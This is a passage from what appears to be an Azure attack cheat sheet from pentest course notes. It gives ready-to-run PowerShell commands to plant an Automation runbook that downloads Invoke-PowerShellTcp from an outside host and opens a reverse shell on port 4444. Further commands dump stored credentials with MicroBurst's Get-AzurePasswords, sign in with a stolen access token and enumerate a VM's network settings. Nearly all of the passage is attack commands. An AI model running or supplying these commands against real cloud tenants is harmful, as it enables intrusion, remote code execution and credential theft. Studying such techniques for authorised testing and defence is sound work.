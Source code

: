 #### Import Powershell runbook
```
Import-AzAutomationRunbook -Name student38 -Path <PATH TO .ps1 FILE> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Type PowerShell -Force -Verbose
```

#### Contents off studentx.ps1 for reverse shell
```
IEX (New-Object Net.Webclient).downloadstring("http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1")

reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4444
```

#### Publish the automation runbook to the vm
```
Publish-AzAutomationRunbook -RunbookName <NAME FOR RUNBOOK> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

#### Start the runbook
```
Start-AzAutomationRunbook -RunbookName <NAME OF RUNBOOK> -RunOn <WORKERGROUP NAME> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

#### Extract credentials automation account
```
Import-Module Microburst.psm1
Get-AzurePasswords
```

## Command execution on a VM
- Vm access can be found after getting a new user or tokens and seeing that it has access to a vm

#### Connect with Az Powershell
```
$accesstoken = ''
Connect-AzAccount -AccessToken $accesstoken -AccountId <CLIENT ID OR EMAIL>
```

#### Get more information about the VM (networkprofile)
```
Get-AzVM -Name <VM NAME> -ResourceGroupName <RESOURCE GROUP NAME> | select -ExpandProperty NetworkProfile
```

#### Get the network interface
```
Get-AzNetworkInterface -Name <NETWORKINTERFACE>
```

#### Query ID of public ip adress to get the public ip
```
Get-AzPublicIpAddress -Name <ID OF PUBLIC IP ADRESSES IN IPCONFIGURATION>
```
